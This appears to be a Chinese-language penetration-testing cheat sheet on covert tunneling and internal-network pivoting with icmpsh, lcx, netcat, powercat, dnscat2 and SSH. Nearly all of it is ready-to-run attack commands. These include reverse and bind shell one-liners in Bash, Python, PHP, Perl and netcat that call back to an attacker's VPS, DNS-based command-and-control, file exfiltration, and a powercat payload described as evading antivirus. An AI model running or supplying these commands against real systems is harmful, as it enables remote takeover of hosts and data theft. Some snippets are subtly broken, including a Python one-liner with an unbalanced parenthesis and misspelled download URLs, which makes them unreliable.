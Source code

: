 - 隐藏通信隧道技术：

  - 网络层隧道：IPv6、ICMP

    - icmp隧道工具有pingtunnel,icmptunnel,icmpsh,powershell icmp

      - git clone https://github.com/inquisb/icmpsh.git

      - apt-get install python-impacket

      - sysctl -w net.ipv4.icmp_echo_ignore_all=1

      - ./icmpsh_m.py IP(公网) IP(内网)

      - icmpsh.exe -t 192.168.1.7 -d 500 -b 30 -s 128

  - 传输层隧道：TCP、UDP

    - 1.lcx端口转发

      - A.内网端口转发

        - 目标机器：lcx.exe -slave 公网主机ip 4444 127.0.0.1 3389

        - VPS：lcx.exe -listen 4444 5555

      - B.本地端口映射
        - lcx -tran 53 目标主机ip 3389

    - 2.netcat

      - A.安装

        - linux: 
          sudo yum install nc.x86_64，wget http://source.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download -O netcat-0.7.1.tar.gz

        - windows:

        - Nc:https://joncration.org/files/nc111nt.zip

        - Nc_safe:https://jonration.org/files/nc111nt_safe.zip

          - 端口扫描nc -nv 1.1.1.1 80 , nc -v -z 1.1.1.1 80-2000

          - 文件传输nc -lp 333 >1.txt , nc -vn 192.168.1.10 333 < test.txt -q 1

          - 获取shell

            - 1.正向shell

              - 目标主机监听：
                nc -lvp 4444 -e /bin/sh //linux，nc -lvp 4444 -e C:\Windows\system32\cmd.exe //windows

              - 本地主机：
                nc 192.168.1.11 4444

            - 2.反向shell

              - 本地主机监听:
                nc -lvp 9999

              - 目标主机：
                nc 192.168.11.144 9999 -e /bin/sh //linux
                nc 192.168.11.144 9999 -e C:\Windows\system32\cmd.exe //windows

        - python反向shell

          - VPS上监听端口 	nc -lvp 2222

          - 目标主机上执行：
            python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect("192.168.1.4",2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

        - Bash反向shell

          - VPS上监听端口：nc -lvp 4444

          - 目标主机上执行：bash -i >& /dev/tcp/192.168.1.4/4444 0>&1

        - PHP反向shell

          - VPS上监听端口:nc -lvp 2222

          - 目标主机上执行：php -r '$sock=fsockopen("192.168.1.1",2222);exec("/bin/sh -i <&3 >&3 2>&3");'

        - Perl反向shell

          - VPS上监听端口:nc -lvp 2222

          - 目标主机上执行：perl -e 'use Socket;$i="192.168.1.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT," >&S");open(STDERR,">&S");exec("/bin/sh -i");};'

        - 内网代理

          - 1.VPS监听端口 nc -lvp 3333

          - 2.目标服务器执行 nc -lvp 3333 -e /bin/sh

          - 3.边界服务器执行 nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"

    - 3.powercat 

      - 场景一：kali正向连接windows7

        - windows7执行：powercat -l -p 8080 -e cmd.exe -v

        - kali执行:nc 192.168.227.161 8080 -vv

      - 场景二：kali反向连接windows7

        - windows7执行：powercat -c 192.168.227.129 -p 8888 -v -e cmd.exe

        - kali执行:nc -l -p 8888 -vv

      - 场景三：windows7反向连接windows server2008并返回powershell

        - Windows7执行：powercat -l -p 8080 -v

        - windows server 2008执行：powercat -c 192.168.130.150 -p 8080 -v -ep

      - 场景四：powercat文件传输

        - Windows7执行：powercat -l -p 8080 -of c:\Users\ctfwin7\Desktop\flag.txt -v

        - windows server8008：powercat -c 192.168.130.150 -p 8080 -i c:\flag.txt -v

      - 场景五：powercat生成payload(躲避杀软)

        - win7执行：powercat -l -p 8080 -e cmd -v -g >> shell.ps1

        - windoes server2008执行：./shell.ps1

      - 场景六：powercat -DNS协议（DNSCAT）

        - kali执行：ruby dnscat2.rb ms08067.test -e open --no-cache

        - win7执行：powercat -c 192.168.227.129 -p 53 -dns ms08067.test -e cmd.exe

      - DNSCAT安装：

        - git clone https://github.com/iagox86/dnscat2.git

        - cd dnscat2/server

        - gem install bundler

        - bundle install

      - 场景七：powercat转发

        - Windows server 2008:powercat -l -v -p 9999 -e cmd.exe

        - windows7:powercat -l -v -p 8000 -r tcp:192.168.130.100:9999

        - kali执行：nc 192.168.227.161 8000 -vv

      - 场景七：powercat转发(DNS)

        - Windows server 2008:powercat -c 192.168.130.150 -p 8080 -e cmd.exe -v

        - windows7:powercat -l -v -p 8000 -r dns:192.168.130.100:9999::ms08067.test

        - kali执行：ruby dnscat2.rb ms08067.test -e open --no-cache

- 应用层隧道：SSH、HTTP、HTTPS、DNS

  - SSH隧道

    - 密码登录与中间人攻击

      - 1.远程主机收到用户的登录请求，把自己的公钥发给用户

      - 2.用户使用该公钥，将登录密码加密后，发送给远程主机

      - 3.远程主机用自己的私钥，解密登录密码，如果密码正确，就用户登录

    - 本地端口转发ssh -L 本地端口：目标主机：目标端口 jump

    - 远程端口转发ssh -R 远程主机端口：目标主机：目标主机端口 本地主机

    - 动态转发ssh -D 8080 user@host

- 内网连通性判断：

- 1.ICMP协议：ping IP

- 2.TCP协议：nc ip port

- 3.HTTP协议：curl ip:port

- 4.DNS协议：nslookup [www.baidu.com](http://www.baidu.com/) vps-ip

- dig @vps-ip [www.baidu.com](http://www.baidu.com/)